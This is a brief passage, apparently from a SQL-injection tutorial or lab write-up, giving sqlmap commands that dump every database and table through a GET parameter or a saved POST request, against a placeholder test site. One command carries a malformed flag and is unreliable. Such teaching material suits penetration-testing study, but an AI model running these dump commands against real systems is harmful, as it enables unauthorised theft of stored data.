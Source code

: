 Or we can simply dump all the available databases and tables using the following commands.  

**Using GET based Method**
`sqlmap -u https://testsite.com/page.php?id=7 -D <database_name> --dump-all` 
`sqlmap -u https://testsite.com/page.php?id=7 -D blood --dump-all`  

**Using POST based Method**
`sqlmap -r req.txt -D <database_name> --dump-all`  
`sqlmap -r req.txt-p  -D <database_name> --dump-all`  


# Challange


